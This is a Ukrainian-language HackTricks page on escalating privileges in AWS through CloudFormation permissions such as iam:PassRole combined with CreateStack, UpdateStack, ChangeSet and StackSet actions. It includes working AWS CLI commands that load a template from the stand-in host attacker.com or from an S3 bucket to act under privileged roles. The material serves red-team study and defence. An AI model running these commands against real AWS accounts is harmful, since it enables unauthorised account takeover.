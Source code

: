 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Для отримання додаткової інформації про cloudformation перегляньте:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Зловмисник з цими дозволами **може підвищити привілеї**, створивши **CloudFormation стек** з користувацьким шаблоном, розміщеним на їхньому сервері, щоб **виконувати дії під дозволами вказаної ролі:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
На наступній сторінці ви маєте **приклад експлуатації** з додатковим дозволом **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Потенційний вплив:** Привілеї до ролі служби cloudformation, що вказана.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

У цьому випадку ви можете **зловживати існуючим стеком cloudformation** для його оновлення та ескалації привілеїв, як у попередньому сценарії:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозвіл `UpdateStack`** на стек і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролі служби cloudformation.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Якщо у вас є цей дозвіл, але **немає `iam:PassRole`**, ви все ще можете **оновити стеки** та зловживати **IAM ролями, які вже прикріплені**. Перегляньте попередній розділ для прикладу експлуатації (просто не вказуйте жодну роль в оновленні).

Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозвіл `UpdateStack`** на стек і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролі служби cloudformation, яка вже прикріплена.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Зловмисник з дозволами на **передачу ролі та створення та виконання ChangeSet** може **створити/оновити новий стек cloudformation і зловживати ролями служби cloudformation** так само, як з CreateStack або UpdateStack.

Наступна експлуатація є **варіацією**[ **CreateStack**](./#iam-passrole-cloudformation-createstack), що використовує **дозволи ChangeSet** для створення стека.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` можна використовувати, щоб **надати собі дозволи `ChangeSet`** над стеком і виконати атаку.

**Потенційний вплив:** Привілейоване підвищення до ролей сервісу cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Це схоже на попередній метод без передачі **IAM ролей**, тому ви можете просто **зловживати вже прикріпленими**, просто змініть параметр:
```
--change-set-type UPDATE
```
**Потенційний вплив:** Privesc до ролі служби cloudformation, яка вже прикріплена.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Зловмисник може зловживати цими дозволами для створення/оновлення StackSets, щоб зловживати довільними ролями cloudformation.

**Потенційний вплив:** Privesc до ролей служби cloudformation.

### `cloudformation:UpdateStackSet`

Зловмисник може зловживати цим дозволом без дозволу passRole для оновлення StackSets, щоб зловживати прикріпленими ролями cloudformation.

**Потенційний вплив:** Privesc до прикріплених ролей cloudformation.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
